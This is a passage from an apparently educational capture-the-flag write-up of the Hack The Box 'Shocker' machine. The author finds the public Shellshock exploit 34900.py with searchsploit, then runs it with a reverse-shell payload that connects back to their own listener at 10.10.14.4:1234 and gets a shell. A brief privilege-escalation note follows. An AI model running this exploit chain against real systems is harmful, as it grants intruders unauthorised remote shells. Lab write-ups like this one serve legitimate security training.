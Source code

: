 I use **Searchsploit** to check if there is any known exploit. Searchsploit is a command line search tool for [Exploit Database](https://www.exploit-db.com/).

I use the following command:

```
searchsploit shellshock
```

![https://www.freecodecamp.org/news/content/images/2020/08/Screenshot-2020-08-28-at-21.55.43.png](https://www.freecodecamp.org/news/content/images/2020/08/Screenshot-2020-08-28-at-21.55.43.png)

I get more details on an exploit with:

```
searchsploit -x 34900.py
```

![https://www.freecodecamp.org/news/content/images/2020/09/Screenshot-2020-09-01-at-07.33.58.png](https://www.freecodecamp.org/news/content/images/2020/09/Screenshot-2020-09-01-at-07.33.58.png)

You can also check the **Exploit Database** to find the same exploit.

![https://www.freecodecamp.org/news/content/images/2020/09/Screenshot-2020-09-01-at-07.33.23.png](https://www.freecodecamp.org/news/content/images/2020/09/Screenshot-2020-09-01-at-07.33.23.png)

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/34900)

I get more information with:

```
searchsploit -p 34900.py
```

![https://www.freecodecamp.org/news/content/images/2020/09/Screenshot-2020-09-01-at-07.41.16.png](https://www.freecodecamp.org/news/content/images/2020/09/Screenshot-2020-09-01-at-07.41.16.png)

I can see where it is located on my Kali box. I copy the file in my Shocker folder with

```
searchsploit -m exploits/linux/remote/34900.py
```

I then set up the exploit with the following command:python 34900.py payload=reverse rhost=shocker.htb lhost=10.10.14.4 lport=1234 pages=/cgi-bin/user.sh

I set the payload to reverse for a TCP reverse shell and it requires setting up the rhost, the lost, and the lport.

![https://www.freecodecamp.org/news/content/images/2020/09/Screenshot-2020-09-01-at-21.44.01.png](https://www.freecodecamp.org/news/content/images/2020/09/Screenshot-2020-09-01-at-21.44.01.png)

I get a shell!

## Another Privilege Escalation

---

This is a much easier way to privesc, so I list it here:

I type the following command in the meterpreter session to get a standard shell on the target system

```
shell
```
